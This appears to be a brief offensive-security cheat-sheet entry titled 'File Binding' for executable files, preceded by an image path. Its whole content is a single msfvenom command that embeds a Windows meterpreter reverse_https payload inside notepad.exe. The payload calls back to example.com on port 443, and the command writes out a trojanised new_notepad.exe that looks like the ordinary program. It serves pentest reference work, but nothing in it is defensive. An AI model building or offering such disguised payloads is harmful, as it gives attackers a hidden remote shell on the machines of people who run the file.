 ## File Binding

### Executable files

```bash
msfvenom -a x86 --platform windows -x notepad.exe -k -p windows/meterpreter/reverse_https lhost=example.com lport=443 -b "\x00" -f exe -o new_notepad.exe
```
